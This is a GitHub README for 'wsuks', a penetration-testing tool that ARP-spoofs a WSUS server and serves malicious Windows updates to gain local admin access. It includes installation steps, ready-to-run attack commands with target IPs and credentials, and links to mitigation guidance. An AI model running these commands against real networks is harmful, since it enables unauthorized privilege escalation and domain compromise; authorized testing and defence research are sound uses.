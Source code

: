 ![Supported Python versions](https://img.shields.io/badge/python-3.9+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/al3x_n3ff?label=al3x_n3ff&style=social)](https://twitter.com/intent/follow?screen_name=al3x_n3ff)

❗️This project is still in beta and not fully working❗️

# wsuks
_Weaponizing the WSUS Attack_

Gaining local administrative access on a Windows machine that is part of a domain is typically the initial step towards acquiring domain admin privileges during a penetration test. In order to exploit the WSUS attack automatically, this tool spoofs the IP address of the WSUS server within the network using ARP, and when the client requests Windows updates, it provides its own malicious updates instead.
By default, a Windows client requests updates every 24 hours. 

Both the executable file served (Default: PsExec64.exe) and the executed command can be changed as needed.

Prerequisits:
- The target Client must be on the local network
- The Windows Server Update Service (WSUS) must be configured using HTTP

Result:
- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created

## Installation
Using pipx (recommended):
```
sudo apt install python3-pipx
pipx ensurepath
pipx install wsuks
sudo ln -s ~/.local/bin/wsuks /usr/local/sbin/wsuks
```

Using poetry:
```
sudo apt install pipx   # poetry should still be installed with pipx, but apt will work as well
sudo pipx install poetry
sudo ln -s /root/.local/bin/poetry /usr/local/sbin/poetry
git clone https://github.com/NeffIsBack/wsuks
cd wsuks
sudo poetry install
```

## Usage
❗wsuks must be run as root❗

Using pipx you can simply run `sudo wsuks ...` anywhere on the system.\
Using poetry you must be in the wsuks folder and begin every command with `sudo poetry run wsuks ...`

#### Specify known WSUS-Server and create local admin user:
```
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20
```
#### Specify known WSUS-Server and add provided domain user to local admin group (Domain is required!):
```
sudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local
```
#### Autodiscover the WSUS-Server by only specifying the domain user with the dc-ip:
```
sudo wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1
```

## About & Mitigation
In the [PyWSUS](https://github.com/GoSecure/pywsus) Repository from GoSecure you can find a great documentation how to you could detect and mitigate this attack.
They also wrote a great Guide demonstrating how this attack works in detail [here](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/).

This Tool is based on the following projects:
- https://github.com/GoSecure/pywsus
- https://github.com/GoSecure/wsuspect-proxy

